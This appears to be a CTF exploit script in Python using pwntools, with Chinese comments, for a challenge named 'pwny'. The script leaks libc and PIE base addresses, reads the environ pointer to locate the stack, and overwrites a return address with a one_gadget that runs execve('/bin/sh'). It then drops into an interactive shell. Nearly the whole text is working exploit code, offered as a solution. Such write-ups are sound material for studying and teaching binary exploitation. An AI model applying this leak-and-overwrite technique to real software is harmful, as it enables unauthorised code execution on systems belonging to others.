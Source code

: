```python
# 接收程序返回的stderr的地址，按16进制解析（因为程序中输出的方式为 %lx）
stderr = int(b"0x" + sh.recvline(keepends=False), 16)  # recv actual addr of stderr
libc = ELF("./libc-2.27.so")  # 获取ELF文件的信息
print("addr of stderr =", hex(stderr))
libc.address = stderr - libc.sym['_IO_2_1_stderr_']  # libc基地址 # sym: Alias for ELF.symbols
print("addr of libc-2.27.so =", hex(libc.address))

# ===== STEP-3 计算pwny pie基址，得到arr真实地址 # 这一步用 0x201d80 上的也行，应该还有很多能用的
# .bss:202060 arr dq 100h dup(?) # 0x202060即为分析中所说的 size=0x100 的矩阵 arr
# .data:202008 off_202008  dq offset off_202008
read(-0xb)  # 0x202060(addr of arr) - 0x58(0xb x 8) = 0x202008
sh.recvuntil("Result: ")
pie = int(b"0x" + sh.recvline(keepends=False), 16) - 0x202008
arr_addr = pie + 0x202060
print("PIE address =", hex(pie), "addr of arr =", hex(arr_addr))


def calc(addr):  # 计算想要的地址相对于 addr of arr 的 index
    return int((addr - arr_addr) / 8)


# ===== STEP-4 获得 environ 地址
# .text:8B4  call ___isoc99_scanf ; main __printf_chk(1LL, "Your choice: ");后的输入
# 0xC06 write_handler 中 arr[idx] = v2; 对应的汇编语句
gdb.attach(sh, "b *$rebase(0x8b4)\nb *$rebase(0xC06)\nc")  # 这个attach可以用于分析返回地址与environ的差值
environ = libc.sym['environ']
# 在libc中保存了一个函数叫_environ，存的是当前进程的环境变量,通过_environ的地址得到_environ的值，从而得到环境变量地址
# 环境变量保存在栈中，所以通过栈内的偏移量，可以访问栈中任意变量
read(calc(environ))
print("calc(environ)=", hex(calc(environ)), " libc.sym['environ'] =", hex(libc.sym['environ']))
sh.recvuntil("Result: ")
# 原exp这里最后要 - 0xa00 后面计算environ的时候再加回来，具体原因未知。其实是因为我还不懂environ具体是什么
environ = int(b"0x" + sh.recvline(keepends=False), 16)

print("addr of environ =", hex(environ))

# write(calc(environ), p64(0xdeadbeef), True)  # 实际上这里的操作没有作用 # 仅便于调试?

stack = environ - 0x120  # write handler 的返回地址 # 原exp这里是 + 0x8e0
print("stack =", hex(stack), "stack+0x70 =", hex(stack + 0x70))
# constraints: [rsp+0x70] == NULL # 0x10a41c one_gadgets 的约束条件
write(calc(stack + 0x70), p64(0), True)  # 为满足0x10a41c 的 one_gadgets 的约束条件
# one_gadget 0x10a41c execve("/bin/sh", rsp+0x70, environ)
write(calc(stack), p64(libc.address + 0x10a41c), True)  # 向RA写入 one_gadgets 地址


sh.interactive()

```



